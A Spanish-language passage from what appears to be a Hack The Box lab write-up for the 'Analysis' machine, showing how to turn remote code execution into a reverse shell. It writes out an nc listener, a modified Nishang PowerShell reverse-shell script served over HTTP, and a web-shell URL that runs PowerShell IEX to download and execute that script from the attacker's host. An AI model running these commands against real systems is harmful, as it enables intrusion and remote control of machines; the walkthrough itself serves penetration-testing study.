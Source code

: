 Como ya tenemos un Remote Code Execution (RCE), probaremos de establarnos una Reverse Shell. Nos pondremos con **nc** en escucha por el puerto 443.

```bash
rlwrap -cAr nc -nlvp 443
```

<figure><img src="../../../.gitbook/assets/1653_vmware_mzwqU1hJGT.png" alt=""><figcaption></figcaption></figure>

Utilizaremos el script de .ps1 de **Nishang** para establecernos una Reverse Shell, modificaremos el contenido de "Invoke-PowerShellTcp.ps1" y al final del script pondremos el Invoke para que al importarlo en memoria se ejecute la Reverse Shell en el equipo víctima.

```bash
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .

mv Invoke-PowerShellTcp.ps1 PS.ps1

nvim PS.ps1

catnp PS.ps1 | tail -n 1

python3 -m http.server 80
```

<figure><img src="../../../.gitbook/assets/1654_vmware_7Uwi6byekk.png" alt=""><figcaption></figcaption></figure>

Pasaremos la ejecución del comando con Powershell y IEX para importarlo en memoria el Script que tenemos nosotros en nuestro servidor HTTP de Python.

_http://internal.analysis.htb/dashboard/uploads/cmd.php?cmd=powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.14/PS.ps1')_

<figure><img src="../../../.gitbook/assets/1657_vmware_ZIpj6pWB58.png" alt=""><figcaption></figcaption></figure>

Comrpobamos que ganamos acceso al equipo de ANALYSIS.
